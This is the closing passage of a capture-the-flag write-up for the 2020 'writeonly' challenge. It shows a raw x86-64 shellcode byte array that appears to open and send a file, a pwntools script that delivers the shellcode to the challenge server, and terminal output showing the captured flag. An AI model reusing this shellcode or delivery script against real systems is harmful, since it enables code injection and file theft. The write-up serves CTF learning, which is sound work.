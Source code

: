 ```c
    char evil[] = {0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x50,
        0x48, 0xb8, 0x64, 0x73, 0x2e, 0x67, 0x6d, 0x60, 0x66, 0x1, 0x48, 0x31,
        0x4, 0x24, 0x48, 0xb8, 0x2f, 0x68, 0x6f, 0x6d, 0x65, 0x2f, 0x75, 0x73,
        0x50, 0x6a, 0x2 , 0x58, 0x48, 0x89, 0xe7, 0x31, 0xf6, 0x99, 0xf, 0x5,
        0x41, 0xba, 0xff, 0xff, 0xff, 0x7f, 0x48, 0x89, 0xc6, 0x6a , 0x28,
        0x58, 0x6a, 0x1, 0x5f, 0x99, 0xf, 0x5, 0xeb, 0xfe};

    syscall3(SYS_write, fd, (uint64_t)(void *)evil, sizeof (evil));
```

I sent it with a simple pwntools script:

```python
import os
import sys
from pwn import *

f = sys.argv[1]
fd = open(f, 'rb')
stat = os.stat(f)
sz = stat.st_size

io = remote('writeonly.2020.ctfcompetition.com', 1337)

# for `make serve`
# io = remote('localhost', 8000)

# you can gdb into the parent before we send malicious code
input()
io.sendline(str(sz))
io.send(fd.read())
io.interactive()
```

Then, the exciting moment:

```
ctf/writeonly » make send
python send.py shellcode.bin
[+] Opening connection to writeonly.2020.ctfcompetition.com on port 1337: Done

[*] Switching to interactive mode
[DEBUG] child pid: 2
shellcode length? reading 576 bytes of shellcode. CTF{why_read_when_you_can_write}
$
```

## Learnings

Many. The one thing I did really right was making it easy to try again. Writing
a Makefile for the various things I needed to run was immensely valuable so I
didn't have to remember commands.
